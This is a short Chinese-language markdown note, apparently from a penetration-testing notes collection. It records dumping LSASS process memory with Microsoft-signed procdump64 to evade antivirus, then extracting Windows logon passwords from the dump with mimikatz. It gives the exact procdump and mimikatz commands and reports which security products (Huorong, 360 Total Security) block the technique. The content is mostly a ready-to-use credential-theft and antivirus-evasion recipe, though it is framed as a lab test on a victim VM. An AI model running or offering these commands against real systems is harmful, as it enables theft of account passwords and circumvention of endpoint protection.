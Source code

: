 ### 结论
能过火绒  
不能过360安全卫士 v13

### 0x00 基本原理
利用procdump是微软签名的程序，自带免杀性  
这里要注意：需要使用64位的procdump以及64位的mimikatz

### 0x01 过火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
上传procdump64.exe后执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
提取进程lsass.exe的内存到文件lsass.dmp中，如下图  
![image](./pic/0.png)  
将lsass.dmp拷贝到宿主机中64位的mimikatz目录下，执行命令
```
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```
成功解密出密码，如下图  
![image](./pic/1.png)  

### 0x02 过360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
会被拦截，如下图  
![image](./pic/2.png)  

